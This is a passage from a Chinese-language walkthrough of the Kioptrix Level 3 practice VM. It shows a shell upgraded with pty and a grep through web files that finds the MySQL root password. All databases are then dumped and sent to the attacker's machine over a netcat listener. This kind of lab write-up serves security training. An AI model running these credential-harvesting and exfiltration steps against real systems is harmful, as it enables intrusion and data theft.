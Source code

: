 ```
 python -c "import pty;pty.spawn('/bin/bash')"
```

&#x20;在此之前我们已经知道了目标使用的数据库是MySQL数据库，我们现在可以grep全局查找相关的文件内容，这里有一个密码为fuckeyou

```
www-data@Kioptrix3:/home/www/kioptrix3.com$ grep -R mysql * | grep pass
grep -R mysql * | grep pass
grep: gallery/scopbin/911006.php.save: Permission denied
gallery/gfunctions.php:                                    $GLOBALS["gallarific_mysql_password"])
gallery/install.BAK:        if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {                                                       
gallery/gconfig.php:    $GLOBALS["gallarific_mysql_password"] = "fuckeyou";                                         
gallery/gconfig.php:if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {

www-data@Kioptrix3:/home/www/kioptrix3.com$ grep GLOBALS gallery/gconfig.php
grep GLOBALS gallery/gconfig.php
        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";
        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
        if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
                                $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
```

我们现在有了mysql的root用户名和密码

从这里，我们可以像上一节中那样返回 phpMyAdmin。这次我们尝试不同的方法。

`mysql`由于我们的 shell 有限，目前使用客户端访问数据库会很麻烦。或者，我们可以将`mysqldump`所有数据库转储到文本文件中。然后我们可以将文件传输回攻击者以便于搜索。

从我们的攻击者那里，启动 Netcat 侦听器来捕获文件：

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 3333 > db.sql  
listening on [any] 3333 ...
```



```
www-data@Kioptrix3:/home/www/kioptrix3.com$ mysqldump -u root -p --all-databases > /tmp/db.sql
<w/kioptrix3.com$ mysqldump -u root -p --all-databases > /tmp/db.sql         
Enter password: fuckeyou
www-data@Kioptrix3:/home/www/kioptrix3.com$ ls /tmp
ls /tmp
db.sql
www-data@Kioptrix3:/home/www/kioptrix3.com$ nc 192.168.23.131 3333 < /tmp/db.sql
<w/kioptrix3.com$ nc 192.168.23.131 3333 < /tmp/db.sql
```
